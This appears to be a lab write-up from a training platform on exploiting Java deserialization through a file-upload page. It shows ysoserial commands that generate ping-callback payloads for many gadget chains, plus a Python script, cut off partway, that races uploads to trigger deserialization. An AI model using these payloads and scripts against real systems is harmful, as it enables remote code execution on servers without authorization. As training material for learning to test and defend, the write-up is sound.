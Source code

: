 ## Java - Lab 1
Going to the demo.ine/local/upload we find a page to upload files, under upload.php. After uploading and clicking ok, we get two errors:
- java.io.FileNotFoundException: data.ser and
- java.io.StreamCorruptedException: invalid stream header: 74686567

Given the data.ser name, it seems that the webapp deserializes the file, which can be force by triggering the StreamCorruptedException error (when the upload is not complete). In order to exploit this, we need to first figure out which Gadget collection to use. We can use a script to bruteforce the usable gadget which will send a ping to our machine.
We get all the payloads of ysoserial with:
```bash
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar >yso  2>&1
cat yso | tr -d ' ' | cut -d "@" -f 1 > payloads.txt
sed -i -e '1,7d'  payloads.txt
```
Then we generate all the ping payloads with:
```bash
while read payloadname; do java -jar ../root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar $payloadname "ping 192.78.216.2 -c 3" > $payloadname; done < payloads.txt
```
And then we can use the python script (we need to script this as the upload and subsequent file check need to happen fast):
```python
import requests
import time
import threading
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
payloads = [
'AspectJWeaver',
'BeanShell1',
'C3P0',
'Click1',
'Clojure',
'CommonsBeanutils1',
'CommonsCollections1',
'CommonsCollections2',
'CommonsCollections3',
'CommonsCollections4',
'CommonsCollections5',
'CommonsCollections6',
'CommonsCollections7',
'FileUpload1',
'Groovy1',
'Hibernate1',
'Hibernate2',
'JBossInterceptors1',
'JRMPClient',
'JRMPListener',
'JSON1',
'JavassistWeld1',
'Jdk7u21',
'Jython1',
'MozillaRhino1',
'MozillaRhino2',
```